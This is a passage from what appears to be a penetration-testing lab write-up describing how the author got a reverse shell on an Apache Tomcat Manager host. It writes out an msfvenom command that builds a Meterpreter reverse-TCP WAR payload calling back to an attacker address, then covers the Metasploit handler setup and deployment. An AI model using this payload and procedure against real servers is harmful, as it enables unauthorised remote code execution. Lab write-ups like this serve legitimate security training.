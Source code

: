 With administrative access to the Web Application Manager, we can obtain a reverse shell by deploying a WAR application[^tomcat-exploit]. It is possible to exploit this service using Metasploit's tomcat_mgr_upload exploit but I will attempt this manually.

The first step is to generate a WAR executable using msfvenom and a valid Meterpreter payload.

`msfvenom -p java/meterpreter/reverse_tcp LHOST=172.16.64.10 LPORT=4444 -f war -o rshell.war`. 

Breaking down the above command:
- `-p java/meterpreter/reverse_tcp`: Staged Meterpreter payload
- `LHOST=172.16.64.10`: Attacker machine's IP address to connect back to
- `LPORT=4444`: Attacker machine's port to connect back to
- `-f war`: Output format as a war file
- `-o rshell.war`: Save the payload to rshell.war

With a meterpreter payload, we will have to create a handler in Metasploit to deploy the staged Meterpreter shell. We could have used a java/shell_reverse_tcp payload which is stageless and catchable by netcat but I wanted to try something outside of my usual tactics.

![172.16.64.101 Metasploit Configuration](/assets/img/posts/black-box-pentest-1/172.16.64.101/metasploit-configuration.jpg)

Use the exploit/multi/handler module in Metasploit and configure the options with the same payload, listening host, and listening port as selected in the msfvenom payload. All that's left is to run the handler.


Back to the Tomcat Application Manager page, upload the deploy the rshell.war file. Once uploaded, the deployed application will execute the WAR file once we browse to /rshell. Switching back to the Metasploit, an open Meterpreter session will be waiting for us!
 
![172.16.64.101 Flag](/assets/img/posts/black-box-pentest-1/172.16.64.101/flag.jpg)


[^tomcat-creds]: <https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown>.
[^tomcat-exploit]: <https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell>
[^mssqlclient-reverse-shell]: <https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/>